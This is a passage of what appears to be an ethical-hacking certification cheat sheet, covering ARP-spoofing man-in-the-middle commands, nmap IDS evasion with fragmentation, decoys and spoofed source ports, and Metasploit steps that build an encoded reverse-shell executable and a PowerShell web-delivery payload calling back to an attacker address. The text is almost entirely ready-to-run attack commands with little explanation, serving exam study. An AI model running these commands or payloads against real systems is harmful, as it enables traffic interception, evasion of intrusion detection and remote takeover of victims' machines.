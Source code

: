 arpspoof -i eth0 -t victim_ip router_ip

ettercap -T -q -i eth0 -M arp /victim_ip// /router_ip//

tcpdump -i eth0 'tcp[13] & 2 != 0' -vv

    
**[Back to top](#top)**


___

## Module 12: Evading IDS/IPS

## Module 12: Evading IDS/IPS

  

## Nmap Fragmentation

```

Packet Fragmentation (-f)

nmap -f -D RND:5 10.10.10.10  # Fragment packets + 5 decoys

  

# Timing Manipulation (-T)

nmap -T0 10.10.10.10  # Paranoid (5+ min)

nmap -T5 10.10.10.10  # Insane (<30 sec)

  

# Source Port Spoofing

nmap --source-port 53 10.10.10.10  # Appear as DNS traffic

```

### Metasploit Evasion (Guaranteed Exam Task)

```

# Payload Encoding

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -f exe > payload.exe

  

# Obfuscated Web Delivery

use exploit/multi/script/web_delivery

set target 2  # PowerShell

set payload windows/meterpreter/reverse_https

set LHOST 10.10.10.10

exploit

```

